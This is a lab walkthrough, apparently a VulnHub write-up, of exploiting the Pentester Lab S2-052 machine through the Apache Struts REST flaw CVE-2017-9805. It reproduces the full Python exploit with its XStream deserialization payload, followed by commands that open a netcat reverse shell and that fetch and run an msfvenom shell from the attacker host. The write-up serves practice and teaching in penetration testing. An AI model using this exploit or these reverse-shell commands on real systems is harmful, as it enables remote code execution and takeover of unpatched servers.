


# <a href='https://www.vulnhub.com/entry/pentester-lab-s2-052,206/' target="blank">Pentester Lab: S2-052</a>

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/bash-script)

## Enumeration

### Open Ports

``` bash
┌──(Hades㉿172.17.0.1)-[0.8:22.4]~
└─$ nmap -p- --min-rate 3000 192.168.110.137
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-27 22:10 EST
Nmap scan report for 192.168.110.137
Host is up (0.0013s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.46 seconds
```

### Open Services

``` bash

```

This is a web application, let's go with gobuster to enum more the hidden.

``` bash
┌──(Hades㉿172.17.0.1)-[0.8:22.4]~
└─$ gobuster dir -u http://192.168.110.137 -w /usr/share/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.110.137
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/27 22:14:58 Starting gobuster
===============================================================
/META-INF (Status: 302)
/WEB-INF (Status: 302)
/css (Status: 302)
/fonts (Status: 302)
/orders (Status: 200)
===============================================================
2021/01/27 22:15:01 Finished
===============================================================
```

Go to uri "/orders" and check how app work.

=== "Orders"

	

=== "view-source"

	

## Foothold

### CVE-2017-9805

Look around in the internet, I found CVE-2017-9805 with key word "orders.xhtml exploit".

<a href='https://github.com/mazen160/struts-pwn_CVE-2017-9805' target="blank">struts-pwn - CVE-2017-9805 Exploit</a>


Let's use `searchsploit` to find more about this vulnerability.

=== "searchsploit"

	``` bash
	┌──(Hades㉿172.17.0.1)-[0.8:22.1]~
	└─$ searchsploit struts rest             
	------------------------------------------------------------------------------- ---------------------------------
	 Exploit Title                                                                 |  Path
	------------------------------------------------------------------------------- ---------------------------------
	Apache Struts - REST Plugin With Dynamic Method Invocation Remote Code Executi | multiple/remote/39919.rb
	Apache Struts - REST Plugin With Dynamic Method Invocation Remote Code Executi | multiple/remote/43382.py
	Apache Struts 2.5 < 2.5.12 - REST Plugin XStream Remote Code Execution         | linux/remote/42627.py
	------------------------------------------------------------------------------- ---------------------------------
	Shellcodes: No Results
	                                                                                                                 
	┌──(Hades㉿172.17.0.1)-[0.8:22.1]~
	└─$ searchsploit -m linux/remote/42627.py
	  Exploit: Apache Struts 2.5 < 2.5.12 - REST Plugin XStream Remote Code Execution
	      URL: https://www.exploit-db.com/exploits/42627
	     Path: /usr/share/exploitdb/exploits/linux/remote/42627.py
	File Type: UTF-8 Unicode text, with CRLF line terminators

	Copied to: /home/kali/42627.py
	```

=== "42627.py"

	``` python
	# Exploit Title: Struts 2.5 - 2.5.12 REST Plugin XStream RCE
	# Google Dork: filetype:action
	# Date: 06/09/2017
	# Exploit Author: Warflop
	# Vendor Homepage: https://struts.apache.org/
	# Software Link: http://mirror.nbtelecom.com.br/apache/struts/2.5.10/struts-2.5.10-all.zip
	# Version: Struts 2.5 – Struts 2.5.12
	# Tested on: Struts 2.5.10
	# CVE : 2017-9805

	#!/usr/bin/env python3
	# coding=utf-8
	# *****************************************************
	# Struts CVE-2017-9805 Exploit
	# Warflop (http://securityattack.com.br/)
	# Greetz: Pimps & G4mbl3r
	# *****************************************************
	import requests
	import sys

	def exploration(command):

		exploit = '''
					<map>
					<entry>
					<jdk.nashorn.internal.objects.NativeString>
					<flags>0</flags>
					<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
					<dataHandler>
					<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
					<is class="javax.crypto.CipherInputStream">
					<cipher class="javax.crypto.NullCipher">
					<initialized>false</initialized>
					<opmode>0</opmode>
					<serviceIterator class="javax.imageio.spi.FilterIterator">
					<iter class="javax.imageio.spi.FilterIterator">
					<iter class="java.util.Collections$EmptyIterator"/>
					<next class="java.lang.ProcessBuilder">
					<command>
					<string>/bin/sh</string><string>-c</string><string>'''+ command +'''</string>
					</command>
					<redirectErrorStream>false</redirectErrorStream>
					</next>
					</iter>
					<filter class="javax.imageio.ImageIO$ContainsFilter">
					<method>
					<class>java.lang.ProcessBuilder</class>
					<name>start</name>
					<parameter-types/>
					</method>
					<name>foo</name>
					</filter>
					<next class="string">foo</next>
					</serviceIterator>
					<lock/>
					</cipher>
					<input class="java.lang.ProcessBuilder$NullInputStream"/>
					<ibuffer/>
					<done>false</done>
					<ostart>0</ostart>
					<ofinish>0</ofinish>
					<closed>false</closed>
					</is>
					<consumed>false</consumed>
					</dataSource>
					<transferFlavors/>
					</dataHandler>
					<dataLen>0</dataLen>
					</value>
					</jdk.nashorn.internal.objects.NativeString>
					<jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
					</entry>
					<entry>
					<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
					<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
					</entry>
					</map>
					'''


		url = sys.argv[1]

		headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0',
				'Content-Type': 'application/xml'}

		request = requests.post(url, data=exploit, headers=headers)
		print (request.text)

	if len(sys.argv) < 3:
		print ('CVE: 2017-9805 - Apache Struts2 Rest Plugin Xstream RCE')
		print ('[*] Warflop - http://securityattack.com.br')
		print ('[*] Greatz: Pimps & G4mbl3r')
		print ('[*] Use: python struts2.py URL COMMAND')
		print ('[*] Example: python struts2.py http://sitevulnerable.com/struts2-rest-showcase/orders/3 id')
		exit(0)
	else:
		exploration(sys.argv[2])
	```

### Remote code execution

=== "ping"

	Check remote code with `tcpdump`. Let's open tcpdump in Kali machine.

	``` bash
	sudo tcpdump -i eth0 icmp
	```

	Run exploit `42627.py`

	``` bash
	python3 42627.py http://192.168.110.137/orders/3 'ping -c 2 192.168.110.131' 
	```

	

=== "re using nc"

	Create a listener in Kali machine.

	``` bash
	sudo nc -nvlp 4444
	```

	Get reverse shell

	```bash
	python3 42627.py http://192.168.110.137/orders/3 'nc 192.168.110.131 4444 -e /bin/sh' > /dev/null
	```

	

=== "msfvenom file"

	Create payload file with `msfvenom`

	``` bash
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.110.131 LPORT=4444 -f elf > shell.elf
	```

	Create a http server to transfer payload file.

	``` bash
	sudo python3 -m http.server 80
	```

	Download file shell.elf using `42627.py` and `wget`

	``` bash
	python3 42627.py http://192.168.110.137/orders/3 'wget http://192.168.110.131/shell.elf -O /tmp/shell'
	```

	

	Create a listener in Kali machine.

	``` bash
	sudo nc -nvlp 4444
	```

	Execute file shell.elf and get reverse shell

	```
	python3 42627.py http://192.168.110.137/orders/3 'chmod +x /tmp/shell' > /dev/null
	python3 42627.py http://192.168.110.137/orders/3 '/tmp/shell' > /dev/null
	```

	